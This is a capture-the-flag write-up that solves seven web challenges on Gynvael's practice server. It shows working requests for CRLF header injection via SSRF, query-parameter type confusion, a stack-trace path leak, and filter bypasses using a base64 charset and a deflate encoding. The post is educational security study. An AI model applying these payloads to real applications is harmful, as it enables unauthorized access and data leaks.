




# Gynvael's challenges - Solutions to collection of small web security challs

Recently Gynvael started to post little web challenges that are around topics of web security with NodeJs/Express (mostly) and Flask. Since I used to participate actively in Missions (that you could see at the end of [his streams](https://www.youtube.com/watch?v=JExnV1-GNxk&list=PL0ZCORAYPo2AVflF8N9Usn5mVAm97px6-)) I was more than happy to participate in those challenges too. So here are challenges with my approach to them.

* * *

The challenges can be accessed at <http://challenges.gynvael.stream> with the port number from the header of each chapter (i.e. <http://challenges.gynvael.stream:5000>)

## :5000

First challenge is in Flask and the problematic here is the follow code
[code]
    @app.route('/secret')
    def secret():
      if request.remote_addr != "127.0.0.1":
        return "Access denied!"

      if request.headers.get("X-Secret", "") != "YEAH":
        return "Nope."

      return f"GOOD WORK! Flag is {FLAG}"

[/code]

We should issue a request that is identified as a local one and also containing a specific custom header.

The code gives us the ability to query an address we specify but how do we make sure the request is identified as a local one and additionally how we can inject a custom header if the request is build in the following way
[code]
    def fetch_url(url, lang):
      o = urlparse(url)

      req = '\r
'.join([
        f"GET {o.path} HTTP/1.1",
        f"Host: {o.netloc}",
        f"Connection: close",
        f"Accept-Language: {lang}",
        "",
        ""
      ])

[/code]

For the header, we can submit a `lang` value as `'en-us\r
X-Secret: YEAH'` so we will use the new line character that will be correctly interpreted when we build the request for the flag. And how to pass the local IP check? Well, the code is on the server so we can just query it directly by passing `127.0.0.1`. So the following request will give us the flag for this challenge.
[code]
    url = 'http://127.0.0.1:5000/secret'
    splitter = '\r
'
    additional = ['en-US','X-Secret: YEAH']
    r = splitter.join(additional)
    data = {'url':url, 'lang':r}
    requests.post('http://challenges.gynvael.stream:5000/fetch',data=data)

[/code]

## :5001

This one is in NodeJs & Express challenge. The problem that we need overcome.
[code]
    if (req.query.secret.length > 5) {
        res.end("I don't allow it.")
        return
    }

    if (req.query.secret != "GIVEmeTHEflagNOW") {
      res.end("Wrong secret.")
      return
    }

[/code]

The first check ensures that we do not provide more than 5 characters wile the second one check if our secret is "GIVEmeTHEFlagNOW", which for sure is longer than 5 characters.

How to deal with that? The old tricks with passing an array instead of just a value. If we do that, the `.length` for the first one will be calculated based on array elements number and the second comparison, since it's weekly typed will just take the string stored at index zero and compare.

Our final request is:

`http://challenges.gynvael.stream:5001?secret[]=GIVEmeTHEfl
agNOW'`

## :5002

Another NodeJS & Express one. Also in this one the task is clear.
[code]
    if (req.query.X.length > 800) {
      const s = JSON.stringify(req.query.X)
      if (s.length > 100) {
        res.end("Go away.")
        return
      }

[/code]

So to get past this one we need to provide a query parameter `X` that is at least 800 characters long, but when processed through `JSON.stringify` we will get at max 100 characters.

The second check is that when appending `<` & `>` produce an error.
[code]
    try {
        const k = '<' + req.query.X + '>'
        res.end("Close, but no cigar.")
      } catch {
          res.end(FLAG)
      }

[/code]

Reading about query object on request in [Express documentation](https://expressjs.com/en/api.html#req.query) it is very clear that it can be dangerous to use it if it's not controlled correctly for user input.

And this ability to control the input is what we will exploit in this one.

We can control the `X` object properties by sending the data in the form of `X[property]=value` so let's abuse that and control `length`. It will allow us to pass the check for 800 or more characters when the check is done on request's query parameter but when length is called on a `JSON.toStringify`'ed object the actual `length` of produced string will be used.

So sending `X[length]=801&` will get us through the first checks. What about the second one? With the exception? We need to abuse the same behavior again with `toString`. If we provide such property, we will override the default one which is a function, so that when called to concatenate the string `'<' + req.query.X + '>'` will produce an error and thus returning the flag to us.

So the final query is:

`http://challenges.gynvael.stream:5002?X[length]=801&X[toString]=`

## :5003

Again, NodeJS & Express. At first it wasn't clear where to look for the flag so the help that was provided with the challenge was useful.

> // IMPORTANT NOTE: // The secret flag you need to find is in the path name of this JavaScript file. // So yes, to solve the task, you just need to find out what's the path name of // this node.js/express script on the filesystem and that's it.

Looking at the code there was no clear place where and how we could get any information about the path from where the script was running.

Again looking at [docs](https://expressjs.com/en/api.html#req.params) there is only one piece of information that can be useful for us

So let's try to search for the `decodeURIComponent` along with `express` hoping that something interesting will pop-up. And we get one interesting link:

When I saw the exception word it was instantly clear how we can get the flag. The stack trace. It print the call stack along with path of the files where the methods on the call stack are located. We just need to trigger it. Thankfully the steps to reproduce for this exception are easy. Just pass `%A0` as the value.

So the final query is:

`http://challenges.gynvael.stream:5003/truecolors/%a0`

## :5004

In this one we have yet another prevention mechanism that forbids to query for the flag. From the code inspection we see that this time we do have an additional `verify` method that checks for existence of particular string and yet the same string is needed to be passed to get the flag.
[code]
    app.use(express.text({
      verify: (req, res, body) => {
        const magic = Buffer.from('ShowMeTheFlag')

        if (body.includes(magic)) {
          throw new Error("Go away.")
        }
      }
    }))

[/code]
[code]
    if ((typeof req.body) !== 'string') {
        res.end("What?")
        return
    }

    if (req.body.includes('ShowMeTheFlag')) {
      res.end(FLAG)
      return
    }

[/code]

So what can we do here? We read the docs. What we [find out](https://expressjs.com/en/api.html#express.text) about the verify method that it in fact accept four arguments and the last one is the encoding of the body. It is not provided here. Also reading about [Buffer.from](https://nodejs.org/api/buffer.html#buffer_class_method_buffer_from_string_encoding) shows that there's also a encoding parameter that in our example is not provided and it's by default 'utf-8'. We might be getting somewhere.

Let's try to process this information. Issuing some requests to this application and observing if we can spot some differences in the `body` between `verify` method and `body` used in `post` we can observer that, some transformations are being done. For example `urlencode` is called on our body to encode any improper characters. Maybe we can use that. Let's see if we can use that with some other encoding/charset. Playing with the field I've noticed that one interesting works - namely `base64`. When sending a request with such charset, the `validate` gets raw bytes of the request, while `body` in the `post` get bytes after they have been processed by base64's `encode` function.

So the idea is to find some bytes that when `encode` is called will give us the string `GiveMeTheFlag`. Unfortunately, when passing the whole string to the reversed function - `decode` \- an error is thrown stating that padding is incorrect. But here comes the benefit of `include`. We do not need to have just the `GiveMeTheFlag` we will be happy if this will be anywhere in the string. So adding few characters to `GuveMeTheFlag` and we can get the `decode` function to work.

Finally, passing `ShowMeTheFlagaaa` to `decode` will give `b'J\x1a01\xe4\xe1xYZ\x81\xa6\x9a'` and so the final request is:

`requests.post(f'http://challenges.gynvael.stream:5004/flag',data='J\x1a01\xe4\xe1xYZ\x81\xa6\x9a',headers={'Content-type': 'text/plain; charset=base64'})`

will reveal the flag.

## :5005

This one is slightly modified one from the previous port. The relevant part of code is this:
[code]
    req.youAreBanned = false
      let body = ''
      req
        .prependListener('data', (data) => { body += data })
        .prependListener('end', () => {
          const o = new URLSearchParams(body)
          req.youAreBanned = o.toString().includes("ShowMeTheFlag")
        })

[/code]

and this
[code]
    if (req.body.secret !== 'ShowMeTheFlag') {
        res.end("Say the magic phrase!")
        return
    }

    if (req.youAreBanned) {
      res.end("How about no.")
      return
    }

[/code]

So on one hand we need to provide a `body` with a `secret` that has a value o `ShowMeTheFlag` on the other hand we do scan the body that we will be processing before we reach `post` and set a flag to disallow showing the flag when we pass this value in our request. So how we can overcome this limitation?

There is one important component that is different from :5004

`app.use(express.urlencoded({extended: false}))`

so instead of `.text()` as in previous task we use `.urlencoded()` formatter with `extended` parameter set to false. So let's read about it:

This sounds like a tough nut to crack. The default `Content-Type` for this is `application/x-www-form-urlencoded`.

What we can try is this "automatic inflation of `gzip` and `deflate` encodings. Lets try with it.

Let's compress the data `"secret=ShowMeTheFlag"` with `zlib` and pass it to our request.
[code]
    import zlib
    a = zlib.compress(b'secret=ShowMeTheFlag')

[/code]

and we pass this to our request as data. What we need to add for this request to be parsed correctly is a header that will indicate that the data is compressed. We do it by passing `Content-encoding` header. So the final request is:
[code]
    requests.post(f'http://challenges.gynvael.stream:5005/flag',data=a,headers={'Content-Type':'application/x-www-form-urlencoded; charset=utf-8','Content-encoding': 'deflate'})

[/code]

and with that, we will skip the filtering in the `proxy` and will get the flag.

## :5006

This was a bit surprised for me as I did it almost instantly and by accident

> Is this the part of the flag "...eOfThe...". Not sure if I get where was the "issue"/problem.
>
> -- Paweł Łukasik 💻 (@pawel_lukasik) [May 24, 2020](https://twitter.com/pawel_lukasik/status/1264510077916057600?ref_src=twsrc%5Etfw)

The reason it was by accident was that I was running a local copy of the challenge and was seeing a log of `undefined`. Thinking I made a mistake run the same query on the server just to be amazed with the flag.

The final query:

`flag?secret1=aaa&secret2=<undefined>`

The issue here was ASI or automatic semicolon insertion. If we read this [answer on SO](https://stackoverflow.com/a/2846298/4832634) at the very end we see an interesting example
[code]
    return
      "something";

[/code]

will be converted to
[code]
    return;
      "something";

[/code]

And how does our function looks like?
[code]
    const checkSecret = (secret) => {
      return
        [
          secret.split("").reverse().join(""),
          "xor",
          secret.split("").join("-")
        ].join('+')
    }

[/code]

The same pattern. So it will in fact look like this
[code]
    const checkSecret = (secret) => {
      return;
        [
          secret.split("").reverse().join(""),
          "xor",
          secret.split("").join("-")
        ].join('+')
    }

[/code]

and thus returning undefined.

To be continued? Hopefully we will get more challenges in the future. For the moment, thx ❤ Gynvael for an interesting brain teasers.
